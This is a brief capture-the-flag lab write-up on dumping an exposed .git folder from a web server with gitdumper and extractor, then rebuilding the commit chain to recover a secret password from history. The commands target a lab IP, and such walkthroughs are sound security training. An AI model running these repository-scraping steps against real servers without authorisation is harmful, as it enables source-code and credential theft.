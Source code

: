 This box is for learning to pwn a git repository.
There is an open .git folder in the webserver, we can use gitdumper from GitTools
https://github.com/internetwache/GitTools to scrape the folder. 
```bash
./Dumper/gitdumper.sh http://10.10.208.175/.git/ repos #scrape it from webserver
./Extractor/extractor.sh repos reposdump #dump the repos

```
This tools was actually used in wreath room. Because the extractor doesn't really dump it in order, we can order it by looking at the commit-meta txt parent chains.
Look at all the folder commit-meta.txt with this one liner:
```bash
separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"
```
Look for the parent field, it is the commit before the current one, so we can create the chains from that.
We can see that the first update doesn't have obfuscation and hashing yet, so we get the secret password.


Or use the resource in the github readme to manually scrape the .git. [git attack](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/)

From the root folder(where the .git folder is) we can query some information from the logs like this:
```bash
git log #show the logs of the commit
git show COMMIT_ID #show the commit for this COMMIT_ID
```
And we also get the secret password with this method.

Probably good idea to learn git more deeply